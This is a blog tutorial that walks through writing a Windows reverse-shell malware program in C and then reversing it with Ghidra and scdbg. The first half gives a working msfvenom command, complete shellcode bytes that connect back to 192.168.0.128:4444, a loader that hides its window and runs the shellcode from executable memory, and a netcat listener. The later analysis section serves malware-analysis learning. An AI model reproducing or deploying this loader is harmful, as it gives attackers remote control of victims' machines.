 ```yaml
---
layout: post
title:  "Malware 101: Develop and Analyze our own malware"
image: ''
date:   2021-09-20 00:00:00
tags: [Malware Analysis,Malware Development]
description: 'Describe here'
categories: [Blog]
---
```


In this post, we'll learn together how to write a basic malware program that does a reverse shell connection (using shellcode) and analyze our own compiled malware. We'll play around with C code using Visual Studio IDE and MSVenom for the creation of the shellcode.

# Malware development
## Create a new project in Visual Studio
We'll start with creating a new project. Choose the "Console App". Make sure you choose C++.

![image](https://user-images.githubusercontent.com/56353946/134101602-d20f27df-8714-4e1f-b3c9-ee7e0b549ef6.png)

Name your new project. I'm gonna use "revshell_exe".

![image](https://user-images.githubusercontent.com/56353946/134101656-1e5e23a5-218e-47e2-8a66-046496247a28.png)

Now, let's go to our Kali and fire up `msvenom` to generate our Windows reverse shell's shellcode to embed in our malware executable.

## Generate reverse shell's shellcode using MSVenom
Before we generate a "shellcode". Some of the beginner might have no idea what does shellcode means. So, "Shellcode" is a set of instructions that executes a command in software to take control of or exploit a compromised machine. In our case here, our shellcode is to gain the remote system shell of our victim. 
The shellcode not only for shell access, instead there's many other shellcode action that could be done by the author like privilege escalation and many more.\

To generate the shellcode using msvenom, run this command below:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```
Example:
![image](https://user-images.githubusercontent.com/56353946/134104090-9e583dc7-1a98-448a-b3b2-cade2e54b17a.png)

All we need now is to copy the shellcode I highlighted in the red box and paste into our `main` function inside VS IDE.

## Coding
When it comes to programming, you need to familiar with C and WinAPI. Below codes I've put some comments to guide and understand what does the code do.

```
#include <Windows.h>

int main()
{
    // Run our executable console app in the background
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), false);
    
    // MSVenom shellcode payload here
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

    //Allocate memory for the shellcode
    PVOID shellcode = VirtualAlloc(0, sizeof buf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //Copies contents of memory block to destination
    RtlCopyMemory(shellcode, buf, sizeof buf);

    //Execute shellcode as new thread
    DWORD threadID;
    HANDLE handleThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode, NULL, 0, &threadID);

    //Wait till thread terminates
    WaitForSingleObject(handleThread, INFINITE);
}
```

If you don't understand the WinAPI, here some documentation from Microsoft:

0. ShowWindow = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow)
1. VirtualAlloc = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
2. RtlCopyMemory = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
3. CreateThread = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
4. WaitForSingleObject = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

## Test out our malware
Check for any errors in your code and now we good to go.

In our Kali, let's listen to our reverse shell. In my case, my port will be 4444.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvp 4444                                                             
listening on [any] 4444 ...
```

In "Solution Configurations", change `Debug` to `Release`. Then, click Run icon.

![image](https://user-images.githubusercontent.com/56353946/134106107-ea72aebb-989b-411e-8bc8-1615343f21c1.png)

After the program executed, our Kali will gain the remote shell cmd.

![image](https://user-images.githubusercontent.com/56353946/134106322-be7021e7-b46e-4827-a00b-a4aa78dfd062.png)

Our shellcode and malware successfully execute.

# Malware analysis and reversing
Now copy your malicious executable from Release folder into your malware analysis lab and start analysing + reversing the program.

## Ghidra analysis
The result of decompiler of Ghidra have a slightly changes from our code. This is due to the how compiler compiled our executable and how the Ghidra translate from the assembly code.

Here the explaination of the decompiled code:
![image](https://user-images.githubusercontent.com/56353946/134110659-9ddd86a9-b7c4-41b4-b290-38cd6128b325.png)

## Extract shellcode
From the decompiler code, we can locate the shellcode in the Ghidra.
![image](https://user-images.githubusercontent.com/56353946/134120641-35e9e82b-f9ef-4a72-ac4b-7287fc654362.png)

This will bring us to the shellcode bytes in the "Listing view".
![image](https://user-images.githubusercontent.com/56353946/134120921-119550ac-b403-4ac9-bb6f-61fa2595368f.png)

To extract the shellcode, select all the bytes until the finish.
![image](https://user-images.githubusercontent.com/56353946/134121249-9c8cb16d-ca5e-44ab-91b2-71f6b94d077f.png)

Go to Window tab > Bytes: filename.exe. The selected bytes now also been selected in the hex view.
![image](https://user-images.githubusercontent.com/56353946/134121356-61fe7c0b-d3df-4ec3-aaf9-6a9cef4774ca.png)

Copy the bytes and paste into hex editor like HxD. And save it.
![image](https://user-images.githubusercontent.com/56353946/134121520-9771cd80-3114-4689-a466-31ae8b9e5211.png)

Now to analyze the shellcode, there's some options:
1. Use scdbg <-- We will use this
2. Use jmp2it
3. Convert the shellcode into executable. And debug the executable using x32dbg.

## Shellcode analysis
The output below of the scdbg for our shellcode is quite helpful. In our case here, the shellcode was easy to be analyze. At sometimes, a complex shellcode will not be a simpler as this.

![image](https://user-images.githubusercontent.com/56353946/134122559-81100c4a-f7a0-4cc4-83fc-23006b87a167.png)

`LoadLibraryA(ws2_32)`: First, the process will load the DLL file "ws2_32.dll" using LoadLibrary API.

`WSAStartup(190)`: After that, it calls WSAStartup function to initiate the utilization of the Winsock DLL by the current process.

`WSASocket(af=2, tp=1, proto=0, group=0, flags=0)`: It then call the WSASocket to creates a socket.

If we refer the documentation of WSASocket, here the explaination about the number in the prameter:
- af=2 -> The Internet Protocol version 4 (IPv4) address family. 
- tp=1 -> SOCK_STREAM
- proto=0 -> the service provider will choose the protocol to use
- group=0 -> No group operation is performed.
- flags=0 -> A set of flags used to specify additional socket attributes.

`connect(h=42, host: 192.168.0.128 , port: 4444 ) = 71ab4a07`: At this line, the program will establishes a connection to a specific socket. The parameter contains IP of the attacker and his port which will be used to get a reverse shell.

`CreateProcessA( cmd,  ) = 0x1269`: Our shellcode then executes cmd.exe by calling CreateProcessA API

`WaitForSingleObject(h=1269, ms=ffffffff)`: This function will terminate the program when our reverse shell been killed.

`ExitProcess(0)`: Exit and terminate current process.

## Sum up
For the conclusion, we can see that the malware first will be run in the background. And then it allocates some memory space for our shellcode. After allocated the memory region, our shellcode then being copy to the allocated memory. Then, it use CreateThread API to execute the shellcode. In the shellcode, it will connect to our IP and port to gain the reverse shell of cmd.exe.
